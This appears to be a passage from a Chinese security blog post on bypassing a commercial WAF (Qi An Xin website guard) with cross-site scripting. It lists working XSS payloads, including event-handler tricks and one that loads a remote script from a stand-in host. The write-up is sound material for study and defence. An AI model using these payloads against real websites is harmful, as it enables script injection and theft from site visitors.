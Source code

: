 ### 介绍
- - -
奇安信网站卫士是奇安信旗下为网站提供免费加速和防护的云服务平台。为站长免费提供了网站加速,智能高防DNS,防DDOS,防CC,防黑客和网站永久在线等服务，是百万站长的共同...

### 前言
- - -
本来不认识奇安信网站卫士的，那天chabug群，有位师傅发了张图，他去云锁官网测试SQL绕过，结果发现云锁官网用了`qianxin-waf`
![3.jpg](https://ae01.alicdn.com/kf/H68e5c883f9dc410daf4169a869d192f6Y.jpg)

![1.png](https://ae01.alicdn.com/kf/Hae1a6b931c164611ac860e308dd5e44dQ.png)

## 测试
- - -
既然来了测试下，先从容易满足的点出发，我就假设有个参数`?xss=`后面不用考虑闭合之类的，毕竟实战遇到的点各有不同。

首先来看个鸡肋而有趣的例子在推特看到的，作者`@sOmd3v @Ow4ys`

`<x oncopy=y=prompt,y``>z` `<x onpaste=y=prompt,y``>z`

![4.png](https://ae01.alicdn.com/kf/Ua6a276b50d5040e586d9438d7fb2dfc3v.png)

`oncopy 事件`在用户拷贝元素上的内容时触发(反引号可以替换为括号)，所以触发的方法是按下 `CTRL + C`

`onpaste 事件`在用户向元素中粘贴文本时触发，所以触发的方法是按下 `CTRL + V`

![5.png](https://ae01.alicdn.com/kf/Uf33f53f157c444b694f9eae7bedc5bd5Q.png)

再来看一个`<x oncut=y=prompt,y``>z`这个例子触发是`CTRL + X`以上3个例子就是`复制粘贴剪切` ━━∑(￣□￣*|||━━

比较实用的`onmouseover事件`被拦截了，还有onmousedown，onmouseup(这两个需点击字符z)...等on事件感兴趣可以自己查看手册测试

![7.png](https://ae01.alicdn.com/kf/Uafa9f3e5e9654b3cb61d886f8c70b7afU.png)

## 更多payload
- - -
说实话，我在测这个waf时，过程很顺利，可能是我测过几个waf的原因，感觉对xss检测不是很严，可能是我测试的环境`太乐观了`，毕竟实战各种`鸡肋环境`，但是我发现对于HTML5新出的几个标签属性还是没过滤的，还有少数waf，on事件没过滤全，可能有些on事件属于比较鸡肋的。

Bypass payload:
```
<details open ontoggle=[1].find(alert)>
<select autofocus onfocus=[2].find(alert)>
<input autofocus onfocus=s=createElement("scriPt");body.appendChild(s);s.src="//xss.xx/1te">
```

## fuzz字典
- - -
为什么我很快能得到Bypass payload呢，因为我自己有收集和构造属于自己的字典，下面我大概讲解下自己的思路。

![9.png](https://ae01.alicdn.com/kf/Ua94d1a7baeb249898c60906edc6929b1p.png)

### [TAG]标签
从上图看出一个xss的基本结构，
